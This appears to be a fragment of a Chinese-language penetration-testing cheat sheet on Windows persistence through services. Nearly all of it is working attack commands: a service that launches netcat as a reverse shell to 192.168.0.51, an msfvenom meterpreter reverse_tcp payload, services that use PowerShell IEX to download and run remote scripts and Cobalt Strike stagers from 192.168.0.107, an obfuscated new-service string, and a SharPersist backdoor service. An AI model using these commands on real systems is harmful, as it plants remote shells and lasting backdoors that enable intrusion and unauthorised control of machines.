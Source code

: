 	重启维持nc
	>sc create ms binpath= "cmd /K start c:\nc\nc64.exe -d 192.168.0.51 4567 -e cmd.exe" start= delayed-auto error= ignore
	重启维持psh
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.107 LPORT=11111 -f psh-reflection >/var/www/html/xxx.ps1
	>sc create ms binpath= "cmd /K start C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe -nop -exec bypass -c \"IEX(New-Object net.webclient).DownloadString('http://192.168.0.107/xxx.ps1')\"" start= delayed-auto error= ignore
![image](/assets/Pentest_Note/master/img/457.png)

	重启维持Cobalt strike
	配置监听器，生成web传递模块Powershell脚本
	>sc create ms binpath= "cmd /K start C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.0.107:8080/a'))\"" start= delayed-auto error= ignore
![image](/assets/Pentest_Note/master/img/458.png)

	Delay执行大概2分钟上线
	>sc delete ms 卸载服务
	Powershell
	>powershell.exe new-service -Name nuoyani -BinaryPathName "C:\WINDOWS\Temp\360.exe" -StartupType Automatic
	>$c2='new-';$c3='service -Name nuoyani -DisplayName OrderServ -BinaryPathName "C:\accc.exe" -StartupType Automatic'; $Text=$c2+$c3;IEX(-join $Text)

	使用SharPersist
	>SharPersist -t service -c "C:\Windows\System32\cmd.exe" -a "/c backdoor.exe" -n "Backdoor" -m add